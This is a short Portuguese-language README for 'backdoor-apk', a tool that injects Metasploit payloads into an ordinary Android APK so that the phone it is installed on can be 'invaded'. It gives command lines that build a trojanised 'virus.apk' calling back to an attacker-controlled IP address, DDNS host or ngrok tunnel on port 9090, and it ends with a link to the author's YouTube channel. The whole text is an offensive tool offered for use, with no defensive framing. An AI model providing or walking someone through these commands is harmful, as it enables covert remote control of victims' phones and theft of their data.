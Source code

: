 # backdoor-apk
Invada qualquer Android usando um APK!

Necessário o Perl, MSF(console e venom), um APK(qualquer)..

Para ajuda

./backdoor-apk -h

IP:

./backdoor-apk -i test.apk 192.168.1.143 9090 virus.apk

Host/DDNS:

./backdoor-apk -i test.apk fuckthisn0ip.ddns.net 9090 virus.apk

Ngrok:

./backdoor-apk -n test.apk xxxx 9090 virus.apk

Meu canal no YT: https://www.youtube.com/channel/UC_0YeOjcY-d_Tq0Kvcf4CKg
